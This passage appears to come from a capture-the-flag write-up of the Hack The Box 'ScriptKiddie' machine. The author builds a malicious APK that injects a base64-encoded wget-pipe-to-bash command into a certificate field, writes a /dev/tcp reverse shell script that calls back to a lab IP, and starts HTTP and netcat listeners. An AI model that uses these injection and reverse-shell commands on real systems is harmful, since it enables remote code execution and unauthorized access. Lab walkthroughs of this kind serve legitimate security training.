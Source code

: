 I tried a payload that would grab a file with `wget` (as we know this works) and pipe it directly to `bash`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "wget http://10.10.16.211/rev.sh | bash" | base64
d2dldCBodHRwOi8vMTAuMTAuMTYuMjExL3Jldi5zaCB8IGJhc2gK
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ python3 gen-apk.py 
[+] Manufacturing evil apkfile
Payload: echo "d2dldCBodHRwOi8vMTAuMTAuMTYuMjExL3Jldi5zaCB8IGJhc2gK" | base64 -d | bash
-dname: CN='|echo ZWNobyAiZDJkbGRDQm9kSFJ3T2k4dk1UQXVNVEF1TVRZdU1qRXhMM0psZGk1emFDQjhJR0poYzJnSyIgfCBiYXNlNjQgLWQgfCBiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpv43nnb6f/evil.apk
Do: msfvenom -x /tmp/tmpv43nnb6f/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

I made a `rev.sh` file:

```bash
#rev.sh
bash -c 'bash -i >& /dev/tcp/10.10.16.211/9001 0>&1'
```

And stood up a python listener on port 80:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/www]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then a netcat listener to hopefully catch the shell:

```bash
┌──(mac㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```
